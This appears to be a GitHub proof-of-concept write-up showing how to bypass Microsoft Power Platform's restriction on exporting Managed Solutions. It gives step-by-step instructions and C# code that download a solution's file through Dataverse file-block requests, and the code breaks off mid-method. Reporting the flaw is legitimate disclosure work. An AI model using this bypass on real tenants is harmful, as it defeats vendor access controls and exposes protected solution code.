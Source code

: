 ## Bypass restriction for exporting Managed Solutions

I’ve provided instructions and C# code which will demonstrate the bypass. It should be executed through IOrganizationService. 

## Proof of Concept
Follow these steps:

1) Go to make.powerapps.com in our organization. 

![Step 1](/images/step1.png)

2) Open Solutions and select "Managed"

![Step 2](/images/step2.jpg)

3) Select the solution which you want to export. In the URL, copy the id of the solution.

![Step 3](/images/step3.png)

4) Execute the following code. You can do it from Console Application using "PowerPlatform.Dataverse.Client" or write a plugin. By the way, if you are using plugin, you should save the solution somewhere else rather than saving it to the local machine.

## Code
``` cs
using Microsoft.Crm.Sdk.Messages;
using Microsoft.PowerPlatform.Dataverse.Client;
using Microsoft.Xrm.Sdk;

namespace ExportSolution
{
    internal class Program
    {
        private static void Main(string[] args)
        {
            using (var service = new ServiceClient("<Connection string to Dataverse Instance>"))
            {
                ExportManagedSolution(service,"solution", new Guid("<Solution Id>"), "fileid");
            }
        }

        public static void ExportManagedSolution(IOrganizationService service, string solutionName, Guid recordGuid, string fileAttributeName)
        {
            var initializeFileBlocksDownloadRequest = new InitializeFileBlocksDownloadRequest
            {
                Target = new EntityReference(solutionName, recordGuid),
                FileAttributeName = fileAttributeName
            };

            var initializeFileBlocksDownloadResponse = (InitializeFileBlocksDownloadResponse)
                service.Execute(initializeFileBlocksDownloadRequest);

            var downloadBlockRequest = new DownloadBlockRequest
            {
                FileContinuationToken = initializeFileBlocksDownloadResponse.FileContinuationToken
            };

            var downloadBlockResponse = (DownloadBlockResponse)service.Execute(downloadBlockRequest);

```